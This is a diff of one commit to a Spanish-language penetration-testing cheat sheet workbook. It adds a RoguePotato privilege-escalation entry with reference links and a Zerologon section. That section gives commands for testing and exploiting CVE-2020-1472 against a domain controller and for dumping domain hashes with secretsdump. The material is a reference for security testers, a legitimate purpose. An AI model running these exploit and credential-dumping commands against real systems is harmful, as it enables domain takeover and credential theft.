

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Explotacion & Post-Explotacion, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
+++ b/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
-AD39: (empty)
+AD39: ROGUE POTATO
+AD39:AF39 merged
-AD40: (empty)
+AD40: Comando
-AE40: (empty)
+AE40: Descripcion
-AF40: (empty)
+AF40: Anotaciones
-AD41: EXPLOITS WINDOWS
+AD41: https://github.com/antonioCoco/RoguePotato
-AD41:AF41 merged
-AE41: (empty)
+AE41: Rogue potato es una version actualizada de Juicy potato para windows server 2019 y ciertas versiones de W10
-AF41: (empty)
+AF41: https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/
-AD42: Comando
+AD42: https://0xdf.gitlab.io/2020/09/08/roguepotato-on-remote.html
-AE42: Descripcion
+AE42: Ejemplo de uso en una maquina
-AF42: Anotaciones
+AF42: https://www.youtube.com/watch?v=iyYqgseKUPM&ab_channel=IppSec
-AD43: https://github.com/jivoi/pentest/tree/master/exploit_win
+AD43: (empty)
-AE43: Para exploits Windows
+AE43: (empty)
-AD44: https://github.com/SecWiki/windows-kernel-exploits
+AD44: ZEROLOGON
+AD44:AF44 merged
-AE44: Exploits compilados SecWiki
+AE44: (empty)
-AD45: (empty)
+AD45: Comando
-AE45: (empty)
+AE45: Descripcion
-AF45: (empty)
+AF45: Anotaciones
-AD46: (empty)
+AD46: python 3 zerologon_tester.py DC-Company 10.10.10.10
-AE46: (empty)
+AE46: Testear si es vulnerable a Zerologon
-AF46: (empty)
+AF46: pip3 install -r requirement.txt
-AD47: (empty)
+AD47: python 3 cve-2020-1472-exploit.py DC-Company 10.10.10.10
-AE47: (empty)
+AE47: Explota la vulnerabilidad Zerologon, no muestra resultados, solo un Exploit Complete y luego hay que usar SecretsDumps
-AF47: (empty)
+AF47: https://github.com/dirkjanm/CVE-2020-1472
-AD48: (empty)
+AD48: secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DC1/DC-Company$@10.10.10.10'
-AE48: (empty)
+AE48: Sacar los hashes con secretsdumps, importante dejar el $ para que nos saque los hashes y el nombre del controlador de dominio
-AF48: (empty)
+AF48: https://github.com/risksense/zerologon
-AD50: (empty)
+AD50: EXPLOITS WINDOWS
+AD50:AF50 merged
```
Also changed, not shown: 7 edited cells elsewhere in this sheet, sheet General, sheet Enumeracion & Escaneos, sheet Interceptadores & Web, sheet Red Team, cell formats.
